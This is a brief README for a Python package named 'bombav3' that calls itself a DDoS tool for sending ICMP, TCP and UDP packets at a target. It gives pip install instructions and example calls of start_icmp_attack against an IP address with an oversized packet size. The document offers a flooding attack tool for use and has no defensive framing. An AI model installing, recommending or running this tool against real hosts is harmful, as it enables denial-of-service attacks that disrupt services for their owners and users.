 # BOMBAV3
PIP INSTALL BOMBAV3 (DDOS TOOLS)

BOMBAB3 IS CUSTOM MODULE FOR SENDING ICMP TCP AND UDP PACKET TO TARGET

## USSAGE 
from bombav3 import start_icmp_attack

# USING ONLY IP ( DEFAULT PACKET_SIZE)
start_icmp_attack("192.168.1.1")

# CUSTOMING PACKET SIZE ( DEPENDS ON YOU )
start_icmp_attack("192.168.1.1", PACKET_SIZE=65000)


## Installation

You can install this package via pip:

```bash
pip install bombav3

